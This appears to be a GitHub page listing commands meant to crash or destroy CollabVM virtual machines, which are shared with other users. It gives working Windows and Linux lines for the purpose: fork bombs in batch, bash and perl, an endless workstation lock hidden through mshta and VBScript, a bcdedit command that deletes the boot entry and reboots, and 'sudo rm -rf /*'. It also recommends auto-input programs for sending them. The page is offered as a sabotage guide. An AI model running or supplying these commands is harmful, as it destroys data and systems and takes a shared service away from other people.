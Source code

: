 # Commands that destroy CollabVM virtual machines

To crash the VM, you must execute one of them in the "Run" window or in the command line (cmd). To do this, it is strongly recommended to use auto-input programs.

## Windows

1. Classic fork bomb. May be closed.

```batch
cmd /c echo %0^|%0>1.bat&1.bat
```

2. Infinite blocking the windows user + pseudo fork bomb. Unclosable, only reboot helps.

```batch
cmd /k for /l %x in (1, 1, 9999999) do (start cmd /k rundll32 user32,LockWorkStation)
```

3. Hidden infinite blocking the windows user (not a forkbomb). Unclosable, Perfect way to block VM, only reboot helps.
```batch
cmd /c mshta vbscript:(CreateObject("WScript.Shell").Run("cmd /k for /l %x in (1, 1, 999999) do rundll32 user32,LockWorkStation """,0))(Window.Close)
```

4. Delete windows from bootloader and reboot (the system will no longer be able to boot. Run from cmd started as admin (RMB on cmd -> Run as admin).

```batch
cmd /k bcdedit /delete {current}&wmic os primary=1 reboot
```

echo ^^ nul^<^^ > bat.bat&start bat.bat

## Linux

You must run "Terminal" program and execute command there.

1. Needs no introduction

```bash
sudo rm -rf /*
```

2. Bash fork bomb. May not work due to fork restrictions.

```bash
:(){ :|:& };:
```

3. Perl fork bomb. May not work due to fork restrictions.

```bash
perl -e "fork while fork" &
```
